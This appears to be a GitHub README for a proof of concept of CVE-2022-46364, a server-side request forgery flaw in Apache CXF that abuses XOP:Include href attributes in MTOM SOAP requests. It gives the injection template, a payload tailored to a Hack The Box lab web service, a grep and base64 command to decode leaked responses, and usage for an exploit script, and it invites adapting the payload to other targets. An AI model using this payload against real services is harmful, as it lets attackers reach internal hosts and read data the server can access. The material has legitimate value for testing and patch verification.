


# CVE-2022-46364

An SSRF vulnerability has been identified in Apache CXF (< 3.5.5 and < 3.4.10) involving the parsing of XOP:Include href attributes in MTOM requests. By leveraging this, it is possible to execute SSRF attacks on web services that process at least one input parameter.

The SSRF is based on the use of XOP:Include:

```xml
<soapenv:Envelope xmlns:xop="http://www.w3.org/2004/08/xop/include">
<xop:Include href="$SSRF"/>
```

This PoC has been verified against a web service exposed by an HTB lab as shown below:



Construct the payload for this specific WSDL as follows:

```xml
<dev:submitReport>
<arg0>
<confidential>true</confidential>
<department>IT Security</department>
<employeeName>Mario Rossi</employeeName>
<content><xop:Include href="$SSRF"/></content>
</arg0>
</dev:submitReport>
```

The result is Base64-decoded by specifying the tags that enclose the response of interest:

```bash
echo "$DATA" | grep -oP '(?<=Content: ).*?(?=</return>)' | base64 -d
```



```bash
$ ./CVE-2022-46364.sh <TARGET URL> <NAMESPACE> <SSRF>
```

The payload and the handling of the output can be modified based on the specific use case; the SSRF relies on the XOP:Include defined within an XML element visible in the server's response.
